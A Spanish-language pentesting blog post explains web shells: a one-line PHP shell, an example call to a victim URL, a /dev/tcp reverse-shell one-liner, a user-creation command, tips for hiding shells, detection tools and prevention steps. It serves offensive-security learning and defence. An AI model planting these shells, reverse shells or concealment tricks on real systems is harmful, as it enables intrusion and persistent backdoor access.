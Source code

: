 ```yaml
---
layout: post
title: "Web Shells: Tu consola secreta en el servidor"
author: "l1ttl3bugc4t"
date: "2025-06-09"
tags: [Web Shell, Pentesting, Shell Access, Red Team, Backdoor, Seguridad Web]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


**Web Shells** son como tener una consola remota… pero *oculta en una página web*.  
Perfectas para mantener acceso después de explotar una vulnerabilidad 😼🖥️

---

## 🧠 ¿Qué es una Web Shell?

Una **web shell** es un archivo (generalmente `.php`, `.asp`, `.jsp`, etc.) que actúa como **una terminal interactiva dentro de una aplicación web**.  
Permite ejecutar comandos del sistema, subir archivos, navegar carpetas y mucho más desde un navegador.

---

## 🔥 Ejemplo básico (PHP)

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Accediendo a:

```
http://victima.com/shell.php?cmd=whoami
```

Resultado:

```
apache
```

---

## 🧪 Web Shells populares

| Nombre | Lenguaje | Funcionalidades |
|--------|----------|-----------------|
| `c99`  | PHP      | UI completa, navegación, comandos, SQL |
| `r57`  | PHP      | Más sigilosa, comandos básicos |
| `WSO`  | PHP      | Potente con GUI y opciones post-exploit |
| `China Chopper` | ASP / JSP | Usada en APTs, ultra pequeña |
| `B374K` | PHP     | Encriptada, con login y funciones avanzadas |

---

## 🚩 Cómo se instalan

- Subida mediante formularios sin validación
- Inclusión remota (RFI)
- Vulnerabilidades LFI + log poisoning
- Explotación de servicios FTP, SMB o CMS
- Desde una shell reversa temporal (como backdoor persistente)

---

## 🛠️ Comandos y trucos comunes

- Navegar archivos: `ls`, `cd`, `cat`
- Crear nuevo usuario: `net user nuevo /add`
- Reverse shell: `bash -i >& /dev/tcp/tu_ip/4444 0>&1`
- Escalar privilegios: enumerar SUIDs o usar linpeas

---

## 🔐 Recomendaciones para ocultarlas

- Nombres inocentes: `image.php`, `404.jsp`, `admin.asp`
- Codificación base64 o cifrado simple
- Comprobación de IP o user-agent antes de ejecutarse
- Uso de password para acceso

---

## 🧼 Cómo detectarlas

- Archivos nuevos o modificados en el servidor
- Comportamientos anómalos o comandos inesperados en logs
- Actividad de red saliente inusual
- Escaneo con herramientas como:
  - `LMD (Linux Malware Detect)`
  - `YARA Rules`
  - `ClamAV`

---

## 🛡️ Cómo prevenirlas

- Validar y restringir subida de archivos
- Configurar permisos adecuados (no permitir ejecución en `/uploads`)
- Filtrar extensiones, contenido y tipo MIME
- Monitorizar cambios en archivos sensibles
- Usar WAF y segmentación de roles

---

## ✨ Conclusión

Las **web shells** son puertas traseras disfrazadas de páginas inofensivas.  
Pequeñas, sigilosas… y letalmente efectivas en un pentest bien ejecutado 🐾💣

> _"Una shell es silenciosa… hasta que ejecutas tu primer comando."_ — **l1ttl3bugc4t**

---
